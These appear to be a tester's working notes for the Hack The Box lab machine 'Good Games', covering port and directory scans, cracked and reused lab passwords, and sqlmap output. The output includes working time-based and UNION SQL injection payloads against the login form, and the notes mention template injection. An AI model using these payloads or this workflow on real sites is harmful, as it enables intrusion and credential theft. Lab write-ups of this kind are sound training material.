

# HTB - Good Games
Keywords: #python #docker #weak-pwd

## Notes

_Current IP:_ 10.10.11.130

_Host Name:_ goodgames.htb  (added to /etc/hosts)

_current DB user_: 'main_admin@localhost'

_current DB user is DBA_: False

### Passwords
```
+------------------------+---------------------------+----------------------+
| login                  | password                  | where                |
+------------------------+---------------------------+----------------------+
| admin@goodgames.htb    | superadministrator        | web portal (gg)      |
| admin                  | superadministrator        | web portal (int-adm) |
| augustus               | superadministrator        | ssh (docker -> host) |
| main_admin             | C4n7_Cr4cK_7H1S_pasSw0Rd! | mysql (host)         |
+------------------------+---------------------------+----------------------+
```

## To-Do
### Enumeration
[_] Continue enumeration of linux host
 - Debian GNU/Linux 11 (bullseye)
 - Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux

## Done
### Enumeration
[x] Continue enumeration of inside docker.
 - IP address is /16
   - pingsweep 172.19.0.[1-255]; make sure to upgrade shell first, or shit will get weird.
 - augustus is mapped from host

### Password Reuse
[x] Determine where cracked login/password can be used
- does this provide any additional exposure/functions/features?

### Input Validation
[x] Check for input validation at [signup](http://goodgames.htb/signup)
- --data "email=*&name=*&password=*&password2=*"

[x] Check for input validation at [login](http://goodgames.htb/login)
- --data "email=\*&password=\*"  

[x] Check for input validation at [forgot-password](http://goodgames.htb/forgot-password)
- --data "Email=\*"  

[x] Check for input validation at [coming-soon](http://goodgames.htb/coming-soon)
- IGNORED - page performs a GET request to non-scoped server - "nkdev.us11.list-manage.com"

### Cracking
[x] Attempt to crack obtained hases from SQLi
- initial attempt with rockyou.txt; no clear-text passwords found.

## Findings

### SQLi 
- Host: http://goodgames.htb/login
- What: 'email' variable was not properly sanitized after POST request
```
sqlmap identified the following injection point(s) with a total of 173 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:35:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
```

### Password Hygiene
#### Easily cracked password
- Host: http://goodgames.htb/_  
```
Database: main
Table: user
+----+------------+---------------------+----------------------------------+--------------------+
| id | name       | email               | hash                             | password           |
+----+------------+---------------------+----------------------------------+--------------------+
| 1  | admin      | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec | superadministrator |
+----+------------+---------------------+----------------------------------+--------------------+
```
#### Password Re-use
- Host: http://internal-administration.goodgames.htb
```
Database: main
Table: user
+----+----------+--------------------+
| id | name     | password           |
+----+----------+--------------------+
| 1  | admin    | superadministrator |
+----+----------+--------------------+
```

- Host: ssh://172.17.0.1
```

+----------+--------------------+
| name     | password           |
+----------+--------------------+
| augustus | superadministrator |
+----------+--------------------+
```

## Enumeration

### nmaps

```
$ sudo nmap -sS -sC -vv -p- -T4 -Pn -oA nmap-T4-all_tcp 10.129.15.202
Nmap scan report for 10.129.15.202
Host is up, received user-set (0.11s latency).
Scanned at 2022-11-16 13:17:48 EST for 226s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-title: GoodGames | Community and Store

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Nov 16 13:21:34 2022 -- 1 IP address (1 host up) scanned in 227.19 seconds
```

```
$ sudo nmap -sS -p 80 -sV 10.129.15.202              
[sudo] password for jimmi: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-16 13:34 EST
Nmap scan report for 10.129.15.202
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```
### Versions

- [Apache httpd 2.4.51](https://packages.ubuntu.com/search?suite=default&section=all&arch=any&keywords=apache2&searchon=names) - Impish (21.10) or prior?
- JavaScript frameworks - GSAP 1.20.3
- Web frameworks - Flask 2.0.2
- Web servers - Flask 2.0.2
- Programming languages - Python 3.9.2
- JavaScript libraries:
  - Hammer.js 2.0.7
  - jQuery 3.3.1
  - Moment.js 2.22.1
- Flask - Volt Dashboard (via SSTI `cat requirements.txt`)
  - flask==2.0.1
  - flask_login==0.5.0
  - flask_migrate==3.1.0
  - flask_wtf==0.15.1
  - flask_sqlalchemy==2.5.1
  - sqlalchemy==1.4.23
  - email_validator==1.1.3
  - python-decouple==3.4
  - gunicorn==20.1.0
  - jinja2==3.0.1
  - flask-restx==0.5.1

### gobusting

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://goodgames.htb -s '200,204,301,302,307,403,500' -b '' --exclude-length 9265 -e | tee gobuster-common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://goodgames.htb
[+] Method:           GET
[+] Threads:          10
[+] Wordlist:         /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:     302,307,403,500,200,204,301
[+] Exclude Length:   9265
[+] User Agent:       gobuster/3.3
[+] Expanded:         true
[+] Timeout:          10s
===============================================================
2022/11/16 14:19:03 Starting gobuster in directory enumeration mode
===============================================================
http://goodgames.htb/blog                 (Status: 200) [Size: 44212]
http://goodgames.htb/forgot-password      (Status: 200) [Size: 32744]
http://goodgames.htb/login                (Status: 200) [Size: 9294]
http://goodgames.htb/logout               (Status: 302) [Size: 208] [--> http://goodgames.htb/]
http://goodgames.htb/profile              (Status: 200) [Size: 9267]
http://goodgames.htb/server-status        (Status: 403) [Size: 278]
http://goodgames.htb/signup               (Status: 200) [Size: 33387]
===============================================================
2022/11/16 14:20:03 Finished
===============================================================

$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://goodgames.htb -s '200,204,301,307,403,500' -b '' --exclude-length 9265 --exclude-length 85107 -e | tee gobuster-cgis.txt                                                                                                                 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://goodgames.htb
[+] Method:           GET
[+] Threads:          10
[+] Wordlist:         /usr/share/seclists/Discovery/Web-Content/CGIs.txt
[+] Status codes:     301,307,403,500,200,204
[+] Exclude Length:   9265,85107
[+] User Agent:       gobuster/3.3
[+] Expanded:         true
[+] Timeout:          10s
===============================================================
2022/11/16 14:31:07 Starting gobuster in directory enumeration mode
===============================================================
Progress: 168 / 3389 (4.96%)[ERROR] 2022/11/16 14:31:10 [!] parse "http://goodgames.htb/%NETHOOD%/": invalid URL escape "%NE"
Progress: 446 / 3389 (13.16%)[ERROR] 2022/11/16 14:31:13 [!] parse "http://goodgames.htb/%a%s%p%d": invalid URL escape "%a%"
Progress: 489 / 3389 (14.43%)[ERROR] 2022/11/16 14:31:14 [!] parse "http://goodgames.htb/default.htm%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%": invalid URL escape "%"
http://goodgames.htb/server-status        (Status: 403) [Size: 278]
===============================================================
2022/11/16 14:31:50 Finished
===============================================================

$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://goodgames.htb -s '200,204,301,302,307,403,500' -b '' --exclude-length 9265 -e -x py,js,txt | tee gobuster-dirlist_med.txt 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://goodgames.htb
[+] Method:           GET
[+] Threads:          10
[+] Wordlist:         /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:     403,500,200,204,301,302,307
[+] Exclude Length:   9265
[+] User Agent:       gobuster/3.3
[+] Extensions:       js,txt,py
[+] Expanded:         true
[+] Timeout:          10s
===============================================================
2022/11/16 14:49:04 Starting gobuster in directory enumeration mode
===============================================================
http://goodgames.htb/blog                 (Status: 200) [Size: 44212]
http://goodgames.htb/login                (Status: 200) [Size: 9294]
http://goodgames.htb/profile              (Status: 200) [Size: 9267]
http://goodgames.htb/signup               (Status: 200) [Size: 33387]
http://goodgames.htb/logout               (Status: 302) [Size: 208] [--> http://goodgames.htb/]
Progress: 19750 / 830576 (2.37%)
```

### feroxbusting

```
$ feroxbuster --url http://goodgames.htb --extract-links | tee -a feroxbuster-common.txt                                                                    
                                                                                                                                                             
 ___  ___  __   __     __      __         __   ___                                                                                                           
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__                                                                                                            
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___                                                                                                           
by Ben "epi" Risher 🤓                 ver: 2.7.1                                                                                                            
───────────────────────────┬──────────────────────                                                                                                           
 🎯  Target Url            │ http://goodgames.htb                                                                                                            
 🚀  Threads               │ 50                                                                                                                              
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt                                                           
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]                                                                              
 💥  Timeout (secs)        │ 7                                                                                                                               
 🦡  User-Agent            │ feroxbuster/2.7.1                                                                                                               
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml                                                                                              
 🔎  Extract Links         │ true                                                                                                                            
 🏁  HTTP methods          │ [GET]                                                                                                                           
 🔃  Recursion Depth       │ 4                                                                                                                               
───────────────────────────┴──────────────────────                                                                                                           
 🏁  Press [ENTER] to use the Scan Management Menu™                                                                                                          
────────────────────────────────────────────────── 
WLD      GET      267l      548w     9265c Got 200 for http://goodgames.htb/055787014c944bb0953049f95b92f530 (url length: 32)
WLD      GET         -         -         - Wildcard response is static; auto-filtering 9265 responses; toggle this behavior by using --dont-filter
302      GET        4l       24w      208c http://goodgames.htb/logout => http://goodgames.htb/
200      GET       22l      253w     5339c http://goodgames.htb/static/vendor/jquery-countdown/dist/jquery.countdown.min.js
200      GET       17l       56w     3026c http://goodgames.htb/static/images/logo-2.png
200      GET      180l     1181w    69420c http://goodgames.htb/static/images/gallery-1-thumb.jpg
200      GET      426l     2868w   151738c http://goodgames.htb/static/images/post-1-mid.jpg
200      GET       77l       68w     2629c http://goodgames.htb/static/images/team-2.jpg
200      GET      446l     1587w    68927c http://goodgames.htb/static/images/bg-fixed-2.jpg
200      GET      267l      553w     9294c http://goodgames.htb/login
200      GET      248l     1594w    80265c http://goodgames.htb/static/images/post-2-mid.jpg
200      GET        5l      311w    34820c http://goodgames.htb/static/vendor/bootstrap-slider/dist/bootstrap-slider.min.js
200      GET      267l      545w     9267c http://goodgames.htb/profile
200      GET        7l      171w    15998c http://goodgames.htb/static/vendor/jarallax/dist/jarallax-video.min.js
200      GET      212l     1403w    83309c http://goodgames.htb/static/images/gallery-4-thumb.jpg
200      GET      752l     4077w   202135c http://goodgames.htb/static/images/bg-bottom.png
200      GET     1380l     8354w   429442c http://goodgames.htb/static/images/bg-top-3.png
200      GET      644l     4141w   216657c http://goodgames.htb/static/images/post-7-mid-square.jpg
200      GET       17l      125w     8229c http://goodgames.htb/static/images/avatar-1.jpg
200      GET       17l      125w     8229c http://goodgames.htb/static/images/avatar-2.jpg
200      GET      151l      524w    23619c http://goodgames.htb/static/images/product-14-xs.jpg
200      GET       98l      529w    31154c http://goodgames.htb/static/images/post-2-sm.jpg
200      GET        4l       76w     9878c http://goodgames.htb/static/vendor/photoswipe/dist/photoswipe-ui-default.min.js
200      GET        7l       39w     1895c http://goodgames.htb/static/images/team-3.jpg
200      GET      458l     2083w    97102c http://goodgames.htb/static/images/post-4-mid.jpg
200      GET      103l      665w    40081c http://goodgames.htb/static/images/product-12-xs.jpg
200      GET      728l     2070w    33387c http://goodgames.htb/signup
200      GET        7l      110w     5594c http://goodgames.htb/static/vendor/imagesloaded/imagesloaded.pkgd.min.js
200      GET      381l     3180w   173589c http://goodgames.htb/static/images/post-3-mid.jpg
200      GET      909l     2572w    44212c http://goodgames.htb/blog
200      GET      129l      442w    20613c http://goodgames.htb/static/images/product-1-xs.jpg
200      GET      287l      620w    10524c http://goodgames.htb/coming-soon
200      GET       89l      882w    45191c http://goodgames.htb/static/images/post-5-sm.jpg
200      GET      165l      426w     6235c http://goodgames.htb/static/plugins/nk-share/nk-share.js
200      GET      255l     1415w    72319c http://goodgames.htb/static/images/gallery-3-thumb.jpg
200      GET      629l     3599w   163885c http://goodgames.htb/static/images/post-1-fw.jpg
200      GET      730l     2069w    32744c http://goodgames.htb/forgot-password
200      GET      816l     4680w   220089c http://goodgames.htb/static/images/slide-1.jpg
200      GET       17l     1147w   114925c http://goodgames.htb/static/vendor/gsap/src/minified/TweenMax.min.js
200      GET       67l      410w    25217c http://goodgames.htb/static/images/post-6-sm.jpg
200      GET       90l      449w    24397c http://goodgames.htb/static/images/post-1-sm.jpg
200      GET        7l      572w    50731c http://goodgames.htb/static/vendor/bootstrap/dist/js/bootstrap.min.js
200      GET      663l     1856w    31374c http://goodgames.htb/blog/1
200      GET     9754l    19468w   205778c http://goodgames.htb/static/css/goodgames.css
200      GET      374l     2147w    96557c http://goodgames.htb/static/images/gallery-3.jpg
200      GET        7l      324w    20765c http://goodgames.htb/static/vendor/hammerjs/hammer.min.js
200      GET      291l     1655w    91870c http://goodgames.htb/static/images/post-7-fw.jpg
200      GET        5l       14w      823c http://goodgames.htb/static/images/icon-mouse.png
200      GET       84l      456w    37028c http://goodgames.htb/static/vendor/soundmanager2/script/soundmanager2-nodebug-jsmin.js
200      GET      661l     4055w   202100c http://goodgames.htb/static/images/post-2-fw.jpg
200      GET      157l      601w    22864c http://goodgames.htb/static/images/product-3-xs.jpg
200      GET      482l     1238w    11607c http://goodgames.htb/static/vendor/photoswipe/dist/default-skin/default-skin.css
200      GET     1142l     6566w   300869c http://goodgames.htb/static/images/post-6-fw.jpg
200      GET        1l      383w    17676c http://goodgames.htb/static/vendor/summernote/dist/summernote-bs4.css
200      GET     2197l     9609w   490998c http://goodgames.htb/static/images/bg-top.png
200      GET      115l      621w    35225c http://goodgames.htb/static/images/product-11-xs.jpg
200      GET      765l     4456w   189168c http://goodgames.htb/static/images/gallery-6.jpg
200      GET      818l     3942w   166525c http://goodgames.htb/static/images/post-4.jpg
200      GET      141l      494w     6179c http://goodgames.htb/static/js/goodgames-init.js
200      GET       22l       88w     3964c http://goodgames.htb/static/images/slide-3-thumb.jpg
200      GET     1566l     7938w   315834c http://goodgames.htb/static/images/post-2.jpg
200      GET       17l      125w     8229c http://goodgames.htb/static/images/avatar-3.jpg
200      GET      605l     3573w   183421c http://goodgames.htb/static/images/post-8-mid.jpg
200      GET        7l     1608w   140930c http://goodgames.htb/static/vendor/bootstrap/dist/css/bootstrap.min.css
200      GET        7l       21w     1110c http://goodgames.htb/static/images/icon-gamepad.png
200      GET      274l     1540w    74926c http://goodgames.htb/static/images/post-4-mid-square.jpg
200      GET        6l       32w     1410c http://goodgames.htb/static/images/favicon.png
200      GET       13l      670w    55241c http://goodgames.htb/static/vendor/flickity/dist/flickity.pkgd.min.js
200      GET     1219l     7066w   315007c http://goodgames.htb/static/images/post-3-fw.jpg
200      GET       12l       80w     3454c http://goodgames.htb/static/vendor/gsap/src/minified/plugins/ScrollToPlugin.min.js
200      GET       70l      477w    26415c http://goodgames.htb/static/images/post-4-sm.jpg
403      GET        9l       28w      278c http://goodgames.htb/server-status
200      GET      286l     1213w    51804c http://goodgames.htb/static/images/gallery-2-thumb.jpg
200      GET      317l     1775w    77064c http://goodgames.htb/static/images/post-3-mid-square.jpg
200      GET       87l      621w    36811c http://goodgames.htb/static/images/product-13-xs.jpg
200      GET      205l     1195w    58233c http://goodgames.htb/static/images/gallery-5.jpg
200      GET      235l     1287w    65395c http://goodgames.htb/static/images/slide-2.jpg
200      GET      370l     2341w   115513c http://goodgames.htb/static/images/post-3.jpg
200      GET      365l     2207w    98221c http://goodgames.htb/static/images/slide-3.jpg
200      GET     1396l     8153w   346682c http://goodgames.htb/static/images/slide-4.jpg
200      GET      205l     1308w    77076c http://goodgames.htb/static/images/gallery-6-thumb.jpg
200      GET        3l     1446w   118619c http://goodgames.htb/static/vendor/summernote/dist/summernote-bs4.min.js
200      GET        2l     1283w    86927c http://goodgames.htb/static/vendor/jquery/dist/jquery.min.js
200      GET      284l     1961w    86504c http://goodgames.htb/static/images/post-5.jpg
200      GET        6l       19w      998c http://goodgames.htb/static/images/icon-gamepad-2.png
200      GET      226l     1258w    52279c http://goodgames.htb/static/images/gallery-4.jpg
200      GET      164l     1059w    46580c http://goodgames.htb/static/images/post-5-mid-square.jpg
200      GET        7l      258w    14848c http://goodgames.htb/static/vendor/jarallax/dist/jarallax.min.js
200      GET       11l       46w    51284c http://goodgames.htb/static/vendor/ionicons/css/ionicons.min.css
200      GET        5l    60950w   672646c http://goodgames.htb/static/vendor/fontawesome-free/js/all.js
200      GET      976l     2368w    26329c http://goodgames.htb/static/vendor/nanoscroller/bin/javascripts/jquery.nanoscroller.js
200      GET       31l      138w     6244c http://goodgames.htb/static/images/slide-2-thumb.jpg
200      GET        1l    27694w   184339c http://goodgames.htb/static/vendor/moment-timezone/builds/moment-timezone-with-data.min.js
200      GET        5l      363w    20337c http://goodgames.htb/static/vendor/popper.js/dist/umd/popper.min.js
200      GET      131l      368w    16301c http://goodgames.htb/static/images/product-2-xs.jpg
200      GET      789l     4594w   212918c http://goodgames.htb/static/images/post-6.jpg
200      GET       16l       83w     3948c http://goodgames.htb/static/images/slide-5-thumb.jpg
200      GET      362l     2687w   142364c http://goodgames.htb/static/images/post-9-mid-square.jpg
200      GET       32l      153w     7741c http://goodgames.htb/static/images/slide-1-thumb.jpg
200      GET        4l       18w      912c http://goodgames.htb/static/images/logo.png
200      GET        2l       47w     3285c http://goodgames.htb/static/vendor/object-fit-images/dist/ofi.min.js
200      GET      455l     3107w   177877c http://goodgames.htb/static/images/post-6-mid.jpg
200      GET      311l     2258w   115541c http://goodgames.htb/static/images/gallery-1.jpg
200      GET       11l      865w    51627c http://goodgames.htb/static/js/goodgames.min.js
200      GET     1071l     6286w   261415c http://goodgames.htb/static/images/post-5-fw.jpg
200      GET        4l       20w     1821c http://goodgames.htb/static/vendor/flickity/dist/flickity.min.css
200      GET      179l      495w     4137c http://goodgames.htb/static/vendor/photoswipe/dist/photoswipe.css
200      GET      818l     4319w   189605c http://goodgames.htb/static/images/gallery-2.jpg
200      GET       10l       39w     3278c http://goodgames.htb/static/vendor/sticky-kit/dist/sticky-kit.min.js
200      GET      190l     1218w    63740c http://goodgames.htb/static/images/post-1.jpg
200      GET      472l     2603w   105918c http://goodgames.htb/static/images/slide-5.jpg
200      GET        4l      287w    31903c http://goodgames.htb/static/vendor/photoswipe/dist/photoswipe.min.js
200      GET        5l       43w    15185c http://goodgames.htb/static/vendor/fontawesome-free/js/v4-shims.js
200      GET        1l        9w       43c http://goodgames.htb/static/css/custom.css
200      GET      466l     3396w   184492c http://goodgames.htb/static/images/post-5-mid.jpg
200      GET       40l      331w    20071c http://goodgames.htb/static/images/post-3-sm.jpg
200      GET       15l       49w     1988c http://goodgames.htb/static/images/team-4.jpg
200      GET       10l       46w     2051c http://goodgames.htb/static/images/team-1.jpg
200      GET       41l      397w     9248c http://goodgames.htb/static/vendor/bootstrap-slider/dist/css/bootstrap-slider.min.css
200      GET      182l     1473w   101378c http://goodgames.htb/static/images/gallery-5-thumb.jpg
200      GET        1l      935w    51638c http://goodgames.htb/static/vendor/moment/min/moment.min.js
200      GET        4l      401w    23261c http://goodgames.htb/static/vendor/jquery-validation/dist/jquery.validate.min.js
200      GET       23l      103w     4994c http://goodgames.htb/static/images/slide-4-thumb.jpg
200      GET      450l     2771w   151697c http://goodgames.htb/static/images/post-7-mid.jpg
200      GET     1735l     5548w    85107c http://goodgames.htb/
200      GET      383l     1317w    43100c http://goodgames.htb/static/images/bg-fixed-1.jpg
200      GET      267l      553w     9294c http://goodgames.htb/password-reset

```

### ffuf

```
[ 12:49PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                       
 $ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.130/FUZZ -fs 9265 -c -v | tee ffuf-raft_med_low.txt                          
                                                                                                                                                                                     
        /'___\  /'___\           /'___\                                                                                                                                              
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                              
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                             
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                             
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                              
          \/_/    \/_/   \/___/    \/_/                                                                                                                                              
                                                                                                                                                                                     
       v1.5.0 Kali Exclusive <3                                                                                                                                                      
________________________________________________                                                                                                                                     

 :: Method           : GET
 :: URL              : http://10.10.11.130/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 9265
________________________________________________

[Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 91ms]
| URL | http://10.10.11.130/logout
| --> | http://10.10.11.130/
    * FUZZ: logout

[Status: 200, Size: 44212, Words: 15590, Lines: 909, Duration: 54ms]
| URL | http://10.10.11.130/blog
    * FUZZ: blog

[Status: 200, Size: 9294, Words: 2101, Lines: 267, Duration: 87ms]
| URL | http://10.10.11.130/login
    * FUZZ: login

[Status: 200, Size: 9267, Words: 2093, Lines: 267, Duration: 453ms]
| URL | http://10.10.11.130/profile
    * FUZZ: profile

[Status: 200, Size: 33387, Words: 11042, Lines: 728, Duration: 113ms]
| URL | http://10.10.11.130/signup
    * FUZZ: signup

[Status: 200, Size: 85107, Words: 29274, Lines: 1735, Duration: 114ms]
| URL | http://10.10.11.130/.
    * FUZZ: .

[Status: 200, Size: 32744, Words: 10608, Lines: 730, Duration: 60ms]
| URL | http://10.10.11.130/forgot-password
    * FUZZ: forgot-password

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 37ms]
| URL | http://10.10.11.130/server-status
    * FUZZ: server-status

[Status: 200, Size: 10524, Words: 2489, Lines: 287, Duration: 133ms]
| URL | http://10.10.11.130/coming-soon
    * FUZZ: coming-soon

[Status: 200, Size: 9294, Words: 2101, Lines: 267, Duration: 121ms]
| URL | http://10.10.11.130/password-reset
    * FUZZ: password-reset

:: Progress: [56293/56293] :: Job [1/1] :: 179 req/sec :: Duration: [0:03:33] :: Errors: 0 ::
```
**internal-administration.goodgames.htb**
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://internal-administration.goodgames.htb/FUZZ -fs 6672 -c -v

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://internal-administration.goodgames.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 6672
________________________________________________

[Status: 200, Size: 13603, Words: 3399, Lines: 211, Duration: 100ms]
| URL | http://internal-administration.goodgames.htb/login
    * FUZZ: login

[Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 183ms]
| URL | http://internal-administration.goodgames.htb/logout
| --> | http://internal-administration.goodgames.htb/login
    * FUZZ: logout

[Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 185ms]
| URL | http://internal-administration.goodgames.htb/.
| --> | http://internal-administration.goodgames.htb/login
    * FUZZ: .

[Status: 403, Size: 302, Words: 20, Lines: 10, Duration: 42ms]
| URL | http://internal-administration.goodgames.htb/server-status
    * FUZZ: server-status

:: Progress: [56293/56293] :: Job [1/1] :: 105 req/sec :: Duration: [0:08:25] :: Errors: 0 ::
```

### Registration

During manual browsing with burp, entered details into [registration form](http://10.10.11.130/signup)

**email**: register@form.com
**first**: Register
**pwd**: Password123!

Upon attempting to resend the same data, it was noted that **Account already exists!**

### Input Validation

#### **sqlmap**

**forgot-password**

```
[ 12:17PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]
 $ sqlmap -u "http://goodgames.htb/forgot-password" --data "Email=*"        
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:18:23 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:18:28] [INFO] testing connection to the target URL
[12:18:28] [INFO] testing if the target URL content is stable
[12:18:28] [INFO] target URL content is stable
[12:18:28] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[12:18:29] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[12:18:29] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[12:18:29] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[12:18:29] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:18:29] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:18:29] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:18:29] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[12:18:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[12:18:30] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[12:18:30] [INFO] testing 'Generic inline queries'
[12:18:30] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[12:18:31] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[12:18:31] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[12:18:31] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:18:32] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[12:18:32] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[12:18:32] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[12:18:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[12:18:42] [WARNING] (custom) POST parameter '#1*' does not seem to be injectable
[12:18:42] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 12:18:42 /2022-12-22/
```
**signup**
```
[  1:03PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]                                                                                                                       
 $ sqlmap -u "http://goodgames.htb/signup" --data "email=*&name=*&password=*&password2=*"                                                                                            
        ___                                                                                                                                                                          
       __H__                                                                                                                                                                         
 ___ ___[,]_____ ___ ___  {1.6.12#stable}                                                                                                                                            
|_ -| . [,]     | .'| . |                                                                                                                                                            
